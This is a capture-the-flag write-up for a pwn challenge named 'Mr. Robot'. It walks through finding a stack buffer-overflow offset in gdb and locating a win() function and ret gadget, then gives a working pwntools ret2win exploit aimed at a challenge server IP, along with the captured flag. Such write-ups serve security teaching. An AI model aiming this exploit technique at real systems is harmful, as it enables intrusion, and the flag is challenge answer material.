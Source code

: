 ```yaml
---
layout: writeup

title: Mr. Robot
level:
difficulty: hard
points: 500
categories: [pwn]
tags: []

flag: CBCV{BuFf3r_0v3rF10W_1s_s1mpL3_9713}
---
```


### Mr. Robot

* Author: Aakansh Gupta (Unknown)


Classic Buffer Overflow CTF.
Connecting to the server through netcat gives:

```bash
┌──(kali㉿kali)-[~/Desktop/Cyscom/3]
└─$ nc 20.244.12.130 50001
Who is the leader of fsociety? 
Enter your answer > 

```

Any answer to this returns:
```bash
┌──(kali㉿kali)-[~/Desktop/Cyscom/3]
└─$ nc 20.244.12.130 50001
Who is the leader of fsociety? 
Enter your answer > Elliot Alderson
You aren't thinking straight Elliot!

```

We try to decompile the file using decompilers like gdb and check breakpoints after entering a huge value:

```bash
pwndbg> run
Starting program: /home/kali/Desktop/Cyscom/3/vuln 
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".
Who is the leader of fsociety? 
Enter your answer > aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa  

Program received signal SIGSEGV, Segmentation fault.

```
Use this data to find the value overriden by the RIP register. Use ` cyclic -l 0x6161616b6161616a ` (for example only) to find offset vlaue with RIP register. 
Now find the ` win() ` function address within gdb using `print win `. Similarly, find the ret gadget using ` ROPgadget --binary ./vuln --only "ret" ` outside gdb.
We are using a `pwntools` exploit script to automatically run and get the flag from the server using the values we found.

```python
from pwn import *

context.arch = 'amd64'

offset = 72
win_address = 0x4011b6
ret_gadget = 0x401016

p = remote("20.244.12.130", 50001)

payload = b'A' * offset + p64(ret_gadget) + p64(win_address)

log.info(f"Payload: {payload}")

p.recvuntil(b'> ')
p.sendline(payload)

p.interactive()

```

Running the script produces the output as the required flag.
<img src="./images/mrobotflag.png" />


### The flag found is:
## CBCV{BuFf3r_0v3rF10W_1s_s1mpL3_9713}
